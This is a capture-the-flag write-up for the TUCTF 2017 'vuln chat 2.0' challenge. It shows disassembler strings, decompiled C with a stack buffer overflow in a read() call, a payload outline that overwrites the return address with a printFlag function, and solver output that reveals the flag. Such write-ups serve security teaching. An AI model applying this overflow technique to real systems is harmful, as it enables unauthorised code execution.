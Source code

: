 # vuln chat 2.0
100 point  
  
Djinn has got some new intel for us. And I think he's giving us a second chance. But he will only speak with you. Let's see what he's got to say.  
  
nc vulnchat2.tuctf.com 4242  
  
[vuln-chat2.0](https://github.com/j3rrry/CTF/raw/master/2017/TU/Pwn/vuln%20chat%202.0/vuln-chat2.0) - md5: d0fe412783aaaeeddc2a6504d6dff631  
libc.so.6 - md5: f71e966c590bfb1f53ea3410f8b489d4  

```radare
[0x08048460]> iz
vaddr=0x08048750 paddr=0x00000750 ordinal=000 sz=50 len=49 section=.rodata type=ascii string=----------- Welcome to vuln-chat2.0 -------------
vaddr=0x08048782 paddr=0x00000782 ordinal=001 sz=22 len=21 section=.rodata type=ascii string=Enter your username:
vaddr=0x08048798 paddr=0x00000798 ordinal=002 sz=5 len=4 section=.rodata type=ascii string=%15s
vaddr=0x0804879d paddr=0x0000079d ordinal=003 sz=13 len=12 section=.rodata type=ascii string=Welcome %s!\n
vaddr=0x080487aa paddr=0x000007aa ordinal=004 sz=22 len=21 section=.rodata type=ascii string=Connecting to 'djinn'
vaddr=0x080487c0 paddr=0x000007c0 ordinal=005 sz=37 len=36 section=.rodata type=ascii string=--- 'djinn' has joined your chat ---
vaddr=0x080487e8 paddr=0x000007e8 ordinal=006 sz=67 len=66 section=.rodata type=ascii string=djinn: You've proven yourself to me. What information do you need?
vaddr=0x0804882b paddr=0x0000082b ordinal=007 sz=5 len=4 section=.rodata type=ascii string=%s:
vaddr=0x08048830 paddr=0x00000830 ordinal=008 sz=32 len=31 section=.rodata type=ascii string=djinn: Alright here's you flag:
vaddr=0x08048850 paddr=0x00000850 ordinal=009 sz=30 len=29 section=.rodata type=ascii string=djinn: flag{1_l0v3_l337_73x7}
vaddr=0x08048870 paddr=0x00000870 ordinal=010 sz=31 len=30 section=.rodata type=ascii string=djinn: Wait thats not right...
vaddr=0x0804888f paddr=0x0000088f ordinal=011 sz=13 len=12 section=.rodata type=ascii string=Ah! Found it
vaddr=0x0804889c paddr=0x0000089c ordinal=012 sz=20 len=19 section=.rodata type=ascii string=/bin/cat ./flag.txt
vaddr=0x080488b0 paddr=0x000008b0 ordinal=013 sz=35 len=34 section=.rodata type=ascii string=Don't let anyone get ahold of this
```
```radare
[0x08048460]> afl~printFlag
0x08048672    1 65           sym.printFlag
```
```C
int doThings()
{
  char buf; // [sp+1h] [bp-27h]@1
  char v2; // [sp+15h] [bp-13h]@1

  puts("----------- Welcome to vuln-chat2.0 -------------");
  printf("Enter your username: ");
  __isoc99_scanf("%15s", &v2);
  printf("Welcome %s!\n", &v2);
  puts("Connecting to 'djinn'");
  sleep(1u);
  puts("--- 'djinn' has joined your chat ---");
  puts("djinn: You've proven yourself to me. What information do you need?");
  printf("%s: ", &v2);
  read(0, &buf, 0x2Du);
  puts("djinn: Alright here's you flag:");
  puts("djinn: flag{1_l0v3_l337_73x7}");
  return puts("djinn: Wait thats not right...");
}
```
`char buf; // [sp+1h] [bp-27h]@1`  
`read(0, &buf, 0x2Du);`  
`payload = "1" * (0x27 + 4) + printFlag()`  
```shell
# python solve.py
[+] Opening connection to vulnchat2.tuctf.com on port 4242: Done
[*] Switching to interactive mode
djinn: Alright here's you flag:
djinn: flag{1_l0v3_l337_73x7}
djinn: Wait thats not right...
Ah! Found it
TUCTF{0n3_by73_15_4ll_y0u_n33d}
Don't let anyone get ahold of this
[*] Got EOF while reading in interactive
$
```
